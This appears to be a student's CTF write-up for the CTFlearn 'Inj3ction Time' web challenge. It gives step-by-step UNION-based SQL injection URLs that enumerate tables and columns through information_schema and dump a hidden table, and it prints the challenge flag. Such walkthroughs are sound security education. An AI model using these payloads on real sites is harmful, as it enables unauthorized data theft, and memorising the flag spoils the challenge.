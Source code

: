 # Inj3ction Time

## [CTFlearn Challenge](https://ctflearn.com/challenge/149)
<img src="inj3ction - solved.png">

## Solutions
### Step 1: 
The link included in the question brought me to a website, ```Dog Viewer```. 

### Step 2: 
I first tried inputting random numbers for ID. Strangely, I discovered that there will be no result shown when I entered any numbers other than 1, 2 and 3. 

When different numbers were input as ID, the URL changed. 
<img src="inj3ction - 1.png">

## Step 3: 
I tried UNION injection by modidying the URL. 

```https://web.ctflearn.com/web8/?id=1%20union%20select%201,2,3,4```. 

The injection gave me the below output. 

<img src="inj3ction - 2.png">

Here we have 2 tables, one of which is the result of ```select 1,2,3,4```. UNION attacks basically injects the records from this table to the first table. This explains the output of the query. 

### Step 4: 
Now I knew I can get information about the database by modifying the second query. 

The ```INFORMATION_SCHEMA.TABLEs``` view allows us to get the information about tables and views within the database. The columns that this view returns include ```TABLE_CATALOG```, ```TABLE_SCHEMA```, ```TABLE_NAME``` and ```TABLE_TYPE```. In this instance, we only want it to return ```TABLE_NAME```. 

Also, we need to specify condition where ```TABLE_SCHEMA = database()```. ```DATABASE()``` returns the name of the current database, which is also refers to the schema. 

```https://web.ctflearn.com/web8/?id=1%20union%20select%201,2,table_name,4%20from%20information_schema.tables%20where%20table_schema=database()```

<img src="inj3ction - 3.png">

### Step 5: 
From the output as shown above, the query exploited 2 tables, ```w0w_y0u_f0und_m3``` and ```webeight```. 

Now i tried to find out the column names by using similar concept above. 

```https://web.ctflearn.com/web8/?id=1%20union%20select%201,table_name,column_name,4%20from%20information_schema.columns%20where%20table_schema=database()```

<img src="inj3ction - 5.png">

### Step 6: 
The query in ```Step 5``` exploited one column, which is ```f0und_m3```. 

At this point, I had had enough information to leak the database to discover the flag. 

```https://web.ctflearn.com/web8/?id=1%20union%20select%201,2,f0und_m3,4%20from%20w0w_y0u_f0und_m3```

<img src="inj3ction - 4.png">

### Step 7: 
Finally, the flag appeared! 

### Flag: 
```abctf{uni0n_1s_4_gr34t_c0mm4nd}```

## End Notes
This challenge is pretty complicated for beginners and I spent hours trying to figure out what the website do and how SQL Injection UNION attacks work. Fortunately, I have some immediate background of SQL so I was able to understand SQL queries and syntax effortlessly. Overall, the challenge is amazing. 